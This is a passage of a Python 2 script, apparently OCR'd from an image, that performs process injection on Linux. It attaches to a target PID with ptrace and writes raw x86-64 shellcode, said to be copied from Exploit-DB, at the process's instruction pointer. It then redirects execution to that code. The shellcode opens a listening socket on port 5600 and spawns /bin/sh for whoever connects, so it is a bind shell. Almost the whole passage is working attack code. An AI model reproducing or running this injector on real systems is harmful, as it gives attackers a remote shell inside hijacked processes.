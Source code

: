 ```plain
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))

print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db.
shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):

  # Convert the byte to little endian.
  shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
  shellcode_byte=int(shellcode_byte_little_endian,16)

  # Inject the byte.
  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))

print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```
